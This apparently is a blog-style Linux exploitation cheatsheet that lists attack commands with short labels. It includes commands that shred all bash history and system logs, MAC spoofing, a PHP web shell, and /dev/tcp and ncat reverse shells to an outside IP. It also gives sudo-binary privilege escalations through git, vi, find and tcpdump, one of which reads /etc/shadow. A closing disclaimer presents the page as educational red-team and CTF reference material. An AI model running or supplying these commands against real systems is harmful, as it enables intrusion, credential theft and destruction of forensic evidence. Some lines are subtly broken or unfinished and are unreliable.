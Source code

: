 ```yaml
---
title: Linux Exploitation Cheatsheet
date: 2019-12-22 14:40:00 -08:00
categories:
- Security
author: Kirin
category: Security
---
```


### This page serves to catalog various web shells, reverse shells, privilege escalation, and other manual exploitation methods.

# --- Detection Avoidance ---  

\- Mac Spoofing -  
`ip link set dev eth0 down`  
`ip link set dev eth0 address <mac>`  
`ip link set dev eth0 up`  

\- Disable history recording -  
`unset HISTFILE ; history -c ; rm -rf ~/.*_history`  

\- Remove ALL Bash history files -  
`find / -name .bash_history -type f -exec shred -vfuz {} \; 2> /dev/null`  

\- Remove ALL LOGS -  
`for d in "$(find /var/log -type d)"; do find $d -type f -exec shred -vfuz {} \; ; rm -rf $d ; done`  

## --- Remote Shells ---  

\- PHP Web Shell -  
 `<?php system($_GET['x']);?>`  

\- /dev/tcp Reverse Shell -  
`bash -i >& /dev/tcp/10.3.3.7/1337 0>&1`  

\- ncat Reverse Shell -  
`ncat <10.3.3.7> 1337 -e /bin/bash`  

## --- Shell Spawning & Privilege Escalation ---  

\- Python -  
`echo os.system('/bin/bash')`  
`python -c 'import pty; pty.spawn("/bin/bash")'`  

\- Perl -  
`perl —e 'exec "/bin/sh";'`  

\- Ruby -  
`ruby: exec "/bin/sh"`  
`/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)' + exec '/bin/sh'`  
(From within IRB)  
`exec "/bin/sh"`  

\- Lua -  
`lua: os.execute('/bin/sh')`  

\- Vi -  
`:!bash`  
`:set shell=/bin/bash:shell`  

\- Nmap -  
`!sh`  
`nmap -- interactive`  
(Replace me with nmap NSE code)  

\- Git -  
`sudo git help status` - then type `!/bin/bash`  

\- Tcpdump -  
1. `echo $'id\ncat /etc/shadow' > /tmp/.test`  
2. `chmod +x /tmp/.test`  
3. `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`  

\- Find -  
`find /tmp/ -name 1 -exec bash -p \;`  

\- More/Less -  
`!/bin/bash`  

Disclaimer: It should go without saying, DO NOT use anything you find on this website for malicious purposes. This website serves to document various tools red-team members, individuals trying to solve Boot-2-Root challenges, or methods an attacker would use that IT security should understand can be used against them. This is for purely educational purposes.  
